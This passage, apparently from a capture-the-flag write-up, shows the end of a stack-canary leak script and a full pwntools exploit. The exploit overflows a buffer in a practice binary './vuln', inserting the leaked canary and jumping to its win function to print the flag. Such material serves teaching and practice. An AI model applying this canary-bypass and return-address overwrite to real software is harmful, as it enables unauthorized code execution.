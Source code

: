 ```python
            canary[i] = chr(c) # add the found value
            break

print("".join(canary))
```

From the picture we can see we leaked the canary, now we just need to carefully assemble the structure of our payload:

```python 
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'error'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# canary token leaked by using leak_canary.py
canry = b"BiRd" 

# Start program
io = start()

offset = 64  # Canary offset

io.sendlineafter(b'> ', b'-1')

io.recvuntil(b'Input> ')

# Build payload (return to win)
payload = flat([
    offset * b'A',  # Pad to canary (64)
    canry,  # Our leaked canary (4)
    16 * b'A',  # Pad to Ret pointer (8)
    elf.symbols.win  # Jmp to win function
])

# Send the payload
io.sendline(payload)

# Get Flag
print(io.recv())
```
